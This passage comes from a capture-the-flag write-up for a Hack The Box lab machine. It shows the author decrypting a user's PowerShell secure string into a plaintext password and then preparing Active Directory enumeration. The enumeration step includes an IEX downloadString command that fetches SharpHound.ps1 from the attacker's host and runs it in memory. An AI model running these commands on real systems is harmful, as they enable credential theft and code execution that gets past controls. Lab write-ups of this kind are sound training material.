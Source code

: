 ```xml
    </Props>
  </Obj>
</Objs>
```

This has a **secure string** from the user **HTB\Tom** in there that we will decrypt:
```powershell
$pass = "01000000d08c9ddf0115d1118c7a00c04fc297eb01000000e4a07bc7aaeade47925c42c8be5870730000000002000000000003660000c000000010000000d792a6f34a55235c22da98b0c041ce7b0000000004800000a00000001000000065d20f0b4ba5367e53498f0209a3319420000000d4769a161c2794e19fcefff3e9c763bb3a8790deebf51fc51062843b5d52e40214000000ac62dab09371dc4dbfd763fea92b9d5444748692" | ConvertTo-SecureString
$user = "HTB\Tom"
$cred = New-Object System.Management.Automation.PSCredential($user, $pass)
$cred.GetNetworkCredential() | fl
```

We get the password of _Tom_:
> 1ts-mag1c!!!

As we know that there is SSH running on this machine we can use that service to login with Tom.

## Privilege Escalation 2

Looking through _Tom_ desktop folder we find the folder **AD Audit** with a file **note.txt** that says:
```markdown
Findings:                                                                                                                       
Surprisingly no AD attack paths from user to Domain Admin (using default shortest path query).                                  
Maybe we should re-run Cypher query against other groups we've created.
```

And another folder in there named **BloodHound** that we will use to analyze the AD domains user structure.

As we will upload different files from the box to our client we will use **impacket-smbserver** so we have a place for the box to upload files:
```markdown
On local client: impacket-smbserver share `pwd`

On reel: net use Z: \\10.10.14.23\share
```

The Bloodhound Ingestors on the box won't start because of AppLocker thats why I upload **SharpHound.ps1** from my client to the box:
```powershell
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.23/SharpHound.ps1')

Invoke-Bloodhound
```

This function in SharpHound will collect the information that we can ingest in BloodHound on our machine.
Before starting BloodHound we need to start the **neo4j** database first:
```markdown
neo4j console

Browse to: http://localhost:7474/
Default password: neo4j
Enter new password
```
